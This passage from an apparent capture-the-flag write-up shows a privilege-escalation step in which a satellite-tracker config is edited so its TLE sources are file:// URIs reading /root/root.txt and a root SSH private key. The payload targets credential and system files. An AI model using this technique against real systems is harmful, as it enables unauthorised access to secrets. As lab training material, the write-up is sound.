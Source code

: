 
It hangs on each source, timing out unable to resolve each host. There’s an
empty file for each in the TLE directory:

    
    
    jovian@jupiter:~$ ls -l /tmp/tle/
    total 0
    -rw-rw-r-- 1 jovian jovian 0 Aug 31 22:10 'gp.php?GROUP=starlink&FORMAT=tle'
    -rw-rw-r-- 1 jovian jovian 0 Aug 31 22:10  noaa.txt
    -rw-rw-r-- 1 jovian jovian 0 Aug 31 22:10  weather.txt
    

### File Read

One way to abuse this is to use the `file://` protocol handler. I’ll replace
the fetched URIs with attempts to read `root.txt` and an private SSH key:

    
    
    {
            "tleroot": "/tmp/tle/",
            "tlefile": "weather.txt",
            "mapfile": "/usr/local/share/sattrack/map.json",
            "texturefile": "/usr/local/share/sattrack/earth.png",
    
            "tlesources": [
                    "file:///root/root.txt",
                    "file:///root/.ssh/id_rsa"
            ],
    
            "updatePerdiod": 1000,
    
            "station": {
                    "name": "LORCA",
                    "lat": 37.6725,
                    "lon": -1.5863,
                    "hgt": 335.0
            },
    
            "show": [
            ],
    
            "columns": [
                    "name",
                    "azel",
                    "dis",
                    "geo",
                    "tab",
                    "pos",
                    "vel"
            ]
    }
    

When I run this, it gets `root.txt`, but no key:

    
    